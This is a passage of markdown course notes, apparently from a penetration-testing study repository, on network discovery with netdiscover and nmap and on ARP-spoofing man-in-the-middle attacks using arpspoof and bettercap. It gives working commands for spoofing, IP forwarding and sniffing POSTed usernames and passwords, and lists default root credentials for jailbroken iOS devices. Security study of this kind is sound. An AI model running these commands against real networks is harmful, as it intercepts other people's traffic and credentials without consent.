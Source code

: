#### Discovering Devices on the Network

Need to gather information (MAC, IP etc.), there are programs that do for you = NetDiscover, Nmap.

##### NetDiscover

- to use NetDiscover `netdiscover -r [ip_range (can only access IPs on the same subnet eg. 10.0.2.xx ends at 254 so eg. 10.0.2.1/24 /24 means all IPs]`
- use your ip address with the last .xx being .1
- if using wireless card use `-i [wirelessCard]` before `-r` or just connect to the network.
- if not finding anything try (interface only if using Wi-Fi, MUST BE IN MANAGED/AUTO MODE)
    - `netdiscover -i <interface> <gateway IP/8>`
    - `netdiscover -i <interface> <gateway IP/16>`
    - `netdiscover -i <interface> <gateway IP/24>`
- To make sure of the gateway IP address, please route -n

##### Nmap

> Zenmap is the graphical user interface of Nmap use <zenmap>

1. in the target  use your network with xx at the end eg. 10.0.2.1/24 (see above [NetDiscover](#netdiscover))
2. in the profiles there are a number of default commands to use. (ping scan might not list everything)
3. use info found to work out things eg. does this model router have any exploits or the phone brand is samsung meaning it's running on android
4. Quick Scan(profile) - also shows open ports and the services running on these ports eg. if port 80 is open a webserver is running.
5. Quick scan plus - Quick scan but also shows Operating system, device type and the programs and program versions running on the ports.

![Nmap]({static img/nmap.png})

> Fun Note: when you jailbrake an iOS device it auto installs an ssh server with default password being: alpine, and uname: root, use `ssh root@[phone/server_ip]` then enter yes and alpine

#### ARP Attack

Address Resolution Protocol (ARP) allows us to link ip addresses to MAC addresses.

- ARP request sends a signal to all clients on the network asking who has this XXX IP the IP will respond with it's MAC address
- goal is to trick the router into thinking you are the victim and the victim into thinking you are the router. (Man in the Middle)
- Use program ARPspoof `arpspoof -i [interface(wificard)] -t [clientip] [gatewayip]` and then `arpspoof -i [interface(wificard)] -t [gatewayip] [clientip]`
    - There is also a tool called bettercap (more features).
    - ARPspoof is not default installed use `apt-get update && apt-get install -y dsniff`
- Packets will be blocked by default on linux to allow packets to flow though on linux use `echo 1 > /proc/sys/net/ipv4/ip_forward` (echo 0 to revert)

##### BetterCap

- use `bettercap -iface [interface]` (interface must be connected to the network you wish to attack)
    - use help to get info of modules running or help [module for more]
- `net.probe on` gets all clients
- `net.show` shows all clients
- To do Man in the middle in Bettercap use `help arp.spoof` you need to modify some of the options, to do this use `set [option_name] [value]` (set full.duplux on and set targets in .targets)
- once settings have been set up turn it on `arp.spoof on`
- To capture data that is being spoofed and analyse it use the net.sniff module `net.sniff on` , you will see entered usernames and passwords under POST
- Instead of doing the above you can use a caplet, to capture data for you
    1. open a text file and type each command
        - `net.probe on`
        - `set arp.spoof.fullduplex true`